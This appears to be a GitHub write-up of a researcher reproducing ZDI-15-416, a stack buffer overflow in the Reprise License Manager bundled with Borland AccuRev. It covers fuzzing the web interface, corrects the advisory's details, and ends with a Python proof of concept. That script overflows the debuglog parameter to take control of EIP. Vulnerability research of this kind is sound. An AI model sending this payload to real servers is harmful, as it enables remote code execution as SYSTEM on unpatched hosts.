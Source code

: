 # Borland-AccuRev-StackoverFlow
****
mail :   Firozimaysam@gmail.com 
twitter : https://twitter.com/R00tkitSMM 

I try to Exploit recently published  vulnerability in Borland AccuRev 

http://www.zerodayinitiative.com/advisories/ZDI-15-416/

````
his vulnerability allows remote attackers to execute arbitrary code on 
vulnerable installations of Borland AccuRev. Authentication is not required
to exploit this vulnerability.

The specific flaw exists within the service_startup_doit functionality
of the Reprise License Manager service. The issue lies in the handling 
of the licfile parameter which can result in overflowing a stack-based buffer.
An attacker could leverage this vulnerability to execute code under the context of SYSTEM.
````
there was two fake information in ZDI report

1. mapping between string and function is "service_Setup_doit" not "service_startup_doit"
2. vulnerable parameter is debuglog not licfile 

RLM come with AccuRev but it can be directly download  by following link:  http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe

searching service_startup_doit string inside rlm.exe dont have any results so i changed it to service_  to get following strings

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/stringInIdapro.png)

after some reversing and  analyzing functions that use above string i decide to use another way to finding bug 

ZDI said vunlnerable function is accessible remotely so I start read RLM manual to find out how it work 
RLM have Web interface it start http server on port 5054 , with the help of burpsuite we can view all http parameters in post or get requests 
after fuzzing Web interface i found target "licfile" parameter in one  Post request
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/burpsuite.png)

for checking licfile parameter vulnerability with help of BurpSuite i send big string parameter to web server
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/bigbuffer.png)
but rlm.exe send error  response  without any crash 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/httperror.png)
i set breakpoint in Immunity debugger to track how rlm.exe validate size of string 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/asm-check.png)

based  on above asm code rlm check string size be less than or equal to 0x400 to prevent buffer overflow so i thought my rlm.exe version is not vulnerabile but i start fuzzing other attack vetors ,so i findout if you send big  string in debuglog parameter and  if string is less than  0x400 to bypass above check you can overiride return value in stack  with  notorious 0x41414141 in rlm.exe so i as said  vulnerabile function is debuglog not licfile .

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/eip.png)

i checked rlm.exe and  it does not support ASLR but there was a big problem,rlm.exe contain null in its addressو so we can't use any address to build our ROP inside rlm.exeو becuse it use string copy functios and it copy string in stack unitl null byte.
so exploting this vulnerability is so simple in XP,just return to shellcode insde stack without ROP 

````
import requests
url="http://10.211.55.39:5054/goform/service_setup_doit"
data= {
    'servicedesc':'RLM+License+Server',
    'servicename':'rlm',
    'action':'1',
    'debuglog':'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'+"\x41\x41\x41\x41",
    'licfile':'C:\Users\username\Desktop\rlm-old'
    }
print requests.post(url, data=data).text
``````


